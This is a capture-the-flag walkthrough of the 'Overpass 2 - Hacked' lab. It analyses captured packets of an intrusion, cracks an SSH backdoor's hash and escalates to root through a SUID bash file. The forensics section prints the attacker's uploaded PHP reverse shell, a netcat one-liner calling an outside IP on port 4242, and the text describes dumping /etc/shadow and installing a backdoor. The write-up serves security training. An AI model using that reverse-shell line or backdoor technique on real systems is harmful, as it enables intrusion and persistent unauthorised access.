

# Overpass 2 - Hacked

## Description

Overpass has been hacked! Can you analyse the attacker's actions and hack back in?
* **Category**: Walkthrough

## Forensics - Analyse the PCAP

Overpass has been hacked! The SOC team have noticed some suspicious activity and have managed to capture some packets as the attack happened. We need to find out how the attacker got in and hack our way back in! First, we need to open the PCAP file with Wireshark and analyse the traffic.


At first glance, we can see a POST request to `/development/upload.php`. This could be where the attacker uploaded some kind of exploit. Let's check out the packet details.


We can see that the uploaded file name is `payload.php`. We now confirm that the attacker uploaded some kind of exploit.


From the encapsulated multipart form data, we can see the source code of the uploaded file where part of it is:

```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f"); ?>
```

The IP address from the source code is the source IP address of the packet. We can now be sure that the payload is a reverse shell. Now we need to find the connection that the attacker made to the reverse shell. Since we've already known the reverse shell's file name, this should be easy.


We can see that after the attacker request a GET request to `/development/uploads/payload.php`, the server created a 3-way handshake connection to the attacker's IP address at port 4242. This is the reverse shell connection. Now that we know a connection's packet, we can follow the TCP stream to see the attacker's actions.


Now we can see that as the attacker got the shell, they continued to logged in as user `james` with his password.


We can see that the attacker tried to dump the password hashes from `/etc/shadow` which some of them can be cracked with `john`.


After that, we can see that the attacker then try to establish persistence by downloading an SSH backdoor from `https://github.com/NinjaJc01/ssh-backdoor` and then install it. We now need to find information about the backdoor.


We can see that the SSH backdoor is started on port 2222. There is some kind of hash provided to execute the backdoor. Maybe a look at the source code will give us more information.

## Research - Analyse the code


We can see a hardcoded default hash in the source code. Also from the import list, we can see a `crypto/sha512` package. This could be the hashing algorithm used to hash the password.


As we scroll down a bit, we can see a hardcoded salt passed in as a parameter of a function. Time to crack the hash!


Thanks to hashcat, we cracked the hash and got the password. Time to get back in!

## Attack - Get back in!

We are given an IP address. Let's check out the website.


Damm! Our website has been defaced! Let's use `nmap` to scan for open ports.


There is the SSH backdoor on port 2222. We can now use the password we cracked to get back in.


And we are in! We can get the flag from the user `james`'s home directory.


We now need to escalate our privileges to root.



After looking around a bit, we found a `.suid_bash` file in the home directory. We can see it has the SUID bit set. Let's check on GTFOBins for an exploit.


After running the exploit, we got the root flag!